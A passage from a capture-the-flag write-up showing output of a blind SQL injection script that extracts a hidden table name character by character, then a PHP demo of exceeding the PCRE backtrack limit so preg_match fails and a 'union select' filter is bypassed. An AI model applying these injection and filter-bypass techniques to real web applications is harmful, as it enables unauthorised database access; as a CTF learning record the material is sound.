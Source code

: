 which dumps the table names

```css
root@MrR3boot:~# python do.py 
1. Dump Database Name
2. Find Table Names
> 2
[+] Table Name : T
[+] Table Name : Th
[+] Table Name : Th1
[+] Table Name : Th1z
[+] Table Name : Th1z_
[+] Table Name : Th1z_F
[+] Table Name : Th1z_Fa
[+] Table Name : Th1z_Fac
[+] Table Name : Th1z_Fack
[+] Table Name : Th1z_Fack1
[+] Table Name : Th1z_Fack1n
[+] Table Name : Th1z_Fack1n_
[+] Table Nmae : Th1z_Fack1n_F
[+] Table Name : Th1z_Fack1n_Fl
[+] Table Name : Th1z_Fack1n_Fl4
[+] Table Name : Th1z_Fack1n_Fl44
[+] Table Name : Th1z_Fack1n_Fl444
[+] Table Name : Th1z_Fack1n_Fl4444
[+] Table Name : Th1z_Fack1n_Fl4444g
[+] Table Name : Th1z_Fack1n_Fl4444g_
[+] Table Name : Th1z_Fack1n_Fl4444g_T
[+] Table Name : Th1z_Fack1n_Fl4444g_Ta
[+] Table Name : Th1z_Fack1n_Fl4444g_Tab
[+] Table Name : Th1z_Fack1n_Fl4444g_Tabl
[+] Table Name : Th1z_Fack1n_Fl4444g_Tabl3
```
Then i started looking for a way to dump the columns but i didn't find any way from mysql documentation. After some hours reading through bunch of docs i could see used queries are stored in sys.statement_analysis table from https://dev.mysql.com/doc/refman/8.0/en/sys-statement-analysis.html
But as we know how CTF stuff is 1000's of queries been sent to server and we can't blindly go for bruteforce on them. Then i stopped here knowing table name and couldn't progress further. After poking challenge author, he mentioned about PHP and Regex issue. Then after an hour or so i figured out https://bugs.php.net/bug.php?id=70699

If we cross the php pcre backtrace limit (100000) we can defeat the preg_match step. I did same.

```css
root@MrR3boot:~# php -a
Interactive mode enabled

php > echo preg_match('/((A)+)/', str_repeat('A', 1363)) ? 1 : 0, PHP_EOL;
1
php > echo preg_match('/((A)+)/', str_repeat('A', 13631)) ? 1 : 0, PHP_EOL;
0
php > echo preg_match('/((A)+)/', str_repeat('A', 136311)) ? 1 : 0, PHP_EOL;
0
php > 
```
This is how it is in action. Now using this behavior we can easily bypass union select regex check.
